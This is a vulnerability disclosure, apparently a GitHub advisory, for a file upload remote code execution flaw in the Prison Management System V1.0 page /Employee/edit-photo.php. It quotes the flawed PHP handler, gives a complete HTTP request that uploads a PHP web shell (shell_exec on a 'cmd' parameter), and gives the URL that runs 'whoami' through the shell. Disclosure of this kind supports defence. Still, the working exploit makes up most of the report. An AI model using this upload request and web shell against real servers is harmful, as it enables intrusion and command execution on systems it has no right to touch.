 Prison Management System - File upload RCE (/Employee/edit-photo.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/Employee/edit-photo.php
```

Using `$_FILES['userImage']['tmp_name'])` as the filename on the server can lead to file upload attacks.

```php
if(isset($_POST["btnedit"])){
	$image= addslashes(file_get_contents($_FILES['userImage']['tmp_name']));
	$image_name= addslashes($_FILES['userImage']['name']);
	$image_size= getimagesize($_FILES['userImage']['tmp_name']);
	move_uploaded_file($_FILES["userImage"]["tmp_name"],"../uploadImage/Profile/" . $_FILES["userImage"]["name"]);
	$location="uploadImage/Profile/" . $_FILES["userImage"]["name"];
	$sql = " update tblemployee set photo='$location' where email='$email'";
	if (mysqli_query($conn, $sql)) {
		header("Location: profile.php");
	}else{
		$_SESSION['error']='Editing Was Not Successful';
	}
}
```

Proof of vulnerability:

Upload a jpg, capture the packet, modify the file content to malicious code, and modify the file suffix to php

Request:

```
POST /Employee/edit-photo.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 319
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHpP9AaD4pW6vykY3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/Employee/edit-photo.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=90379e534d51402f246c8b8c9ff11b59
Connection: close

------WebKitFormBoundaryHpP9AaD4pW6vykY3
Content-Disposition: form-data; name="userImage"; filename="test.php"
Content-Type: image/jpeg

<?php echo shell_exec($_GET['cmd']);?>
------WebKitFormBoundaryHpP9AaD4pW6vykY3
Content-Disposition: form-data; name="btnedit"


------WebKitFormBoundaryHpP9AaD4pW6vykY3--

```

```
http://192.168.150.131/uploadImage/Profile/test.php?cmd=whoami
```

![image-20240505102939350](.\screenshot\image-20240505102939350.png)
